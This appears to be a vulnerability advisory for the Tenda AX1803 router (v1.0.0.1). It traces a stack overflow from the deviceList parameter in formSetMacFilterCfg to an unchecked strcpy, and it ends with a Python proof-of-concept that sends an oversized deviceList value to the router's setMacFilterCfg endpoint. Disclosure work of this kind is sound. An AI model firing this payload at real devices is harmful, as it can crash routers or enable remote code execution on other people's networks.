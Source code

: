 # Tenda AX1803 formSetMacFilterCfg
### Overview
vendor: Tenda

product: AX1803

version: v1.0.0.1

type: Stack Overflow
### Vulnerability Description
Tenda AX1803 v1.0.0.1 were discovered to contain a stack overflow via the deviceList parameter in the formSetMacFilterCfg function.

### Vulnerability details
In function formSetMacFilterCfg line 17, it reads in a user-provided parameter `deviceList`. The variable `v4` is passed as a parameter to the `sub_6483C` function. Function `sub_6483C` takes this variable as a parameter and passes it into function `sub_6302C`. Function `sub_6302C` calls function `sub_5E250`, where the first parameter is the variable `a2`(actually the variable `v4`) and the second parameter is the stack-based buffer `s_2`. In function `sub_5E250`, the variable `s_1`(actually the variable `v4`) is passed to the `strcpy` function without any length check, which may overflow the stack-based buffer `dest`(actually the variable `s_2`). As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/1.png)
![](images/2.png)
![](images/3.png)
![](images/4.png)

### POC
```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/setMacFilterCfg"

data = {
    "macFilterType": "white",
    "deviceList": "a" * 1000 + "\r" + "b" * 1000
}


response = requests.get(url, params=data)
print(response.text)
```
